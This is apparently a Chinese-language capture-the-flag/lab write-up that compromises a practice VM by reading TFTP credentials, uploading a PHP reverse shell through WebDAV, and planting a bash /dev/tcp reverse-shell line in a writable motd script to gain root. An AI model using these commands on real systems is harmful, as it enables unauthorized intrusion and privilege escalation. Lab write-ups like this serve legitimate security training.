# 信息收集

tcp扫描



22：ssh连接

80：http

------

udp扫描



69端口：tftp

**TFTP（简单文件传输协议）**是一种基于UDP的轻量级、无状态文件传输协议。它专为小文件传输设计，不需用户认证，主要用于局域网内网络设备（如路由器、交换机）的固件更新、配置备份或系统无盘引导

常用命令如下



------

先查看网页的内容


把所有图片下载下来后

```
strings *.jpg
```

```
binwalk *.jpg
```

没有发现什么特别的内容

进行目录爆破

```
gobuster -u "http://192.168.174.134" -w "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"
```



发现有一个webdav，并且需要账户和密码

- **WebDAV（Web-based Distributed Authoring and Versioning）** 是一种基于HTTP 1.1协议的扩展，在HTTP标准方法之外添加了新方法，使应用程序可直接对Web服务器进行读写、锁定、解锁和版本控制等操作。
- 它本质上是把Web服务器变成了文件管理器。
- 与SMB和FTP相比，WebDAV最大的特点是**基于HTTP/HTTPS**工作，默认端口为**80/443**，容易穿越防火墙，但默认无加密。





------

（我进行渗透的时候直接卡在了这一步，不知道还可以扫描文件等）

```
gobuster dir -u "http://192.168.174.134" -w "/usr/share/wordlists/dirbuster/directory-2.3-medium.txt" -x txt
```

除了txt，也可以这样用


得到



查看tips.txt



说明靶机应该是有creds.txt的

由于在目录中没有扫描出creds.txt,在之前的udp扫描中，有tftp可以用，所以

```
tftp 192.168.174.134
get creds.txt
```



是base64，进行解码

```
echo 'eWFtZG9vdDpTd2FyZw==' | base64 -d
```

得到信息



推测应该是账户和密码，尝试登录webdav成功登录

这里可以使用关于webdav的一些工具

#### davtest



davtest通过尝试上传各类文件（如`.php`, `.jsp`, `.aspx`），来测试服务器是否存在文件上传、执行等漏洞


------

```
davtest -url http://192.168.174.134/webdav -auth yamdoot:Swarg
```



说明php上传可行

接下来使用另一个工具

------

#### cadaver

**cadaver** 是一个基于命令行的WebDAV客户端，支持文件的上传、下载、编辑、删除、移动、复制、锁定等操作。它的交互界面模仿了传统的FTP客户端，所以如果你用过命令行FTP，上手会非常快。

在渗透测试中，当DAVTest帮你确认了目标存在可写、可执行目录后，cadaver就是你派去执行精确任务的特种兵，用来手动上传Webshell、修改文件或下载敏感数据。



------

```
cadaver http://192.168.174.134/webdav
```



前提是是把反弹shell拿过来（php-reverse-shell.php）

点击网址我们上传的文件，得到一个临时的访问用户（开启监听）



```
find / -writable -type f 2>/dev/null | grep -v proc | grep -v sys
```



这种shell文件一般都需要额外注意

查看内容



- 这种密码是Brainfuck 语言



```
echo '--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.' > 1 | beef 1
```

解密后得到一串字符串



感觉是

某个用户的密码



尝试后确认是inferno



进入inferno的shell

从上面的信息收集中得知，存在可写的motd脚本可以用



了解motd后

对/etc/update-motd.d/00-header进行改动

```
echo "bash -c 'bash-i >& /dev/tcp/192.168.174.134/4444 0>&1'" >> /etc/update-motd.d/00-header
```

- `bash -i`：启动一个交互式 bash
- `>& /dev/tcp/IP/4444`：把标准输出和标准错误重定向到 TCP 连接（bash 内置的特殊文件，它会尝试连接该 IP 和端口）
- `0>&1`：再把标准输入也重定向到同一个连接

------

#### 原理

这行代码如果被执行，就会让靶机向攻击机的 4444 端口发起连接，并提供一个 bash shell。



因此，当我们进行ssh认证登录时



------

在攻击机器上启动

```
nc -lvnp 4444
```

再进行ssh登录





成功拿到root，得到flag
